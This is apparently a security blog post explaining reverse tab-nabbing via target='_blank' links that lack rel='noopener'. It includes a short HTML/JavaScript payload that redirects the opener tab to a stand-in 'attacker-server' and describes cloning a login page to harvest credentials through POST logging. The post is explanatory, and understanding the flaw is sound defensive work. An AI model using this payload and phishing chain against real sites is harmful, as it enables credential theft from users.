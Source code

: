 [back](/)

### Tab-nabbing attack to stealing creds

Imagine that clicking on the received link from a trusted user is normal =)

Despite all the irony, this behavior is quite typical for ordinary users who do not think about how safe the code of web applications that are open in their browser, in numerous tabs, is written.
This is about **Tab-nabbing** attack. The essence of which is to open a new tab in the victim's browser, the link to which is indicated with html tag **target="_blank"** attribute, but without **rel="noopener nofollow"** tag.

```
<a href="https://anylink.com target="_blank"> GoToAnyLink </a>
```

In this case **something.html** page is opened in the victim's browser with the code:

```
<html>
<script>
if (window.opener) window.opener.parent.location.replace ('http://attacker-server/index.html');
if (window.parent! = window) window.parent.location.replace ('http://attacker-server/index.html');
</script>

Hi dude =)<br>
Check my notes

</html>
```

![Image](/img/tabnabbing/1.png)

Any vulnerable navigation to a new tab in the browser where the code is delimited by the tag **target ="_blank"** will be redirected to the page **http://attacker-server/index.html**.

![Image](/img/tabnabbing/2.png)

At the same time, the attacker can clone the authorization page to the vulnerable page using **httrack** or any similar utility. In this case, unnoticed by the victim, a transition will be made to the tab with the vulnerable site. As a rule, in such cases, the victim enters his username and password, assuming that the timed out session has expired. As a result, the attacker can easily obtain the victim's login and password using a web server with the ability to log POST requests.

![Image](/img/tabnabbing/3.png)

Thus, the attacker receives a username and password from the victim with a minimum set of tools and time spent. In total for the attack you need: a web server with the ability to log POST requests, a phishing web page for authorization and a payload in the form of an html file

![Image](/img/tabnabbing/4.png)

That's all friends, watch the tabs in the browser and the links you click on =)

Links:
+ [https://hackerone.com](https://hackerone.com/reports/179568)
+ [How to dump post request with python](https://georgik.rocks/how-to-dump-post-request-with-python)


<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)